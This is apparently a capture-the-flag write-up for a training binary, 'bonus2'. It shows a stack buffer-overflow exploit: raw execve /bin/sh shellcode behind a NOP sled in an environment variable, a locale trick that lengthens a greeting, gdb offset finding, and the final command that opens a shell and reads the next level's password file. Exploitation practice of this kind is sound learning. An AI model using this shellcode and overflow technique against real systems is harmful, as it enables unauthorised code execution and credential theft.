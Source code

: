 # Bonus 2

We're again using this [shellcode](https://shell-storm.org/shellcode/files/shellcode-811.html) that we insert in the env after a nope slide, we'll increment the pointer to it a bit to make our exploit more resilient, refer to `bonus0` for more.

```shell
export PWN=$(python -c 'print "\x90"*500 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
export LANG=nl
```

```shell
(gdb) r `python -c 'print 41 * "A"'` "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab"
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
0x38614137 in ?? ()
```
Using [a pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) we found that the offset it segfaults at is 23.

```shell
./bonus2 `python -c 'print 40 * "A"'` `python -c 'print 23 * "B" + "\x6c\xfd\xff\xbfa"'`
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBl���a
$ cat /home/user/bonus3/.pass
[redacted]
```

```shell
$ ./a.out
sizeof("Hyvää päivää ") = 19
sizeof("Goedemiddag! ") = 14
sizeof("Hello ") = 6;
```

You can do it too with LANG=fi, but you need 5 fewer bytes of padding, because the Finnish greeting is 5 chars longer (Unicode).
You can't do it with LANG=en, because it's not long enough. When I try to repeat the steps, with the generated pattern, it doesn't find the right offset.
